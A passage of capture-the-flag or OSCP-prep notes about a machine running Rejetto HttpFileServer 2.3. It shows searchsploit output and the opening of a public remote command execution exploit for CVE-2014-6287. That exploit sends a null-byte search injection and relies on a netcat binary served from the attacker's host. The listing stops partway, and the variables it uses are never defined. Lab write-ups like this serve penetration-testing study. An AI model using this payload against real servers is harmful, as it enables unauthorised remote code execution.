 ```
```

# Thoughts So Far

Okay, we have another web page on port 8080, that when visited in a web browser shows httpfileserver version 2.3, made by rejetto. I recognize this as a very vulnerable service. Lets check searchsploit after submitting our answer to one of the questions.
```
searchsploit HttpFileServer 2.3
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                                                                | windows/webapps/49125.py
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
Looks like we can get remote command execution on this box.

https://www.exploit-db.com/exploits/39161

We COULD use metasploit for this which can handle everything for us, but that's not very OSCP-prep of us.
### The exploit
```py
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

```